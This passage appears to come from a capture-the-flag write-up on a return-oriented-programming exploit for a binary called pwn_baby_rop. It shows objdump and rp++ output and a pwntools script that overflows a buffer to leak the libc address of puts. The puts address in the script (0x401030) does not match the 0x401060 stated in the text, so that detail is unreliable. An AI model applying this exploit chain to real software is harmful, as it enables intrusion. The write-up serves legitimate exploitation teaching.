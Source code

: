 We also need to find the addresses of puts and puts_got (the GOT entry of puts, which contains the address of puts in LIBC). Fortunately, this can be achieved using objdump and grep:

{% highlight auto %}
$ objdump -d pwn_baby_rop  | grep -A 4 "<puts@plt>"
0000000000401060 <puts@plt>:
  401060:	f3 0f 1e fa          	endbr64 
  401064:	f2 ff 25 ad 2f 00 00 	bnd jmpq *0x2fad(%rip)        # 404018 <setvbuf@plt+0x2f98>
  40106b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
--
  4015de:	e8 7d fa ff ff       	callq  401060 <puts@plt>
  4015e3:	b8 00 00 00 00       	mov    $0x0,%eax
  4015e8:	e8 89 fb ff ff       	callq  401176 <setvbuf@plt+0xf6>
  4015ed:	b8 00 00 00 00       	mov    $0x0,%eax
  4015f2:	c9                   	leaveq 
{% endhighlight %}

If we want to call puts, we should call 0x401060, which calls the value stored at 0x404018 (puts@got). There is only one thing missing: a gadget. When a fnction like puts is called, it loads its parameters from registers mentioned in the system's call convention (in this case, RDI, RSI, RDX, RCX, R8, R9, etc. ). To give puts@got as a parameter, we need to load the address into RDI. To find a 'pop rdi; ret;' gadget, I used [rp++](https://github.com/0vercl0k/rp):

{% highlight auto %}
$ rp-lin-x64 -f pwn_baby_rop  -r 1 | grep 'pop rdi'
0x00401663: pop rdi ; ret  ;  (1 found)
{% endhighlight %}

Okay, that was everything we needed for the first payload. Let's see the script!

## Leaking a LIBC Address

After plugging all the values obtained in the last step into the program, I got the following script:

{% highlight bash %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

# gdb.attach(io)


# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))

io.interactive()
{% endhighlight %}
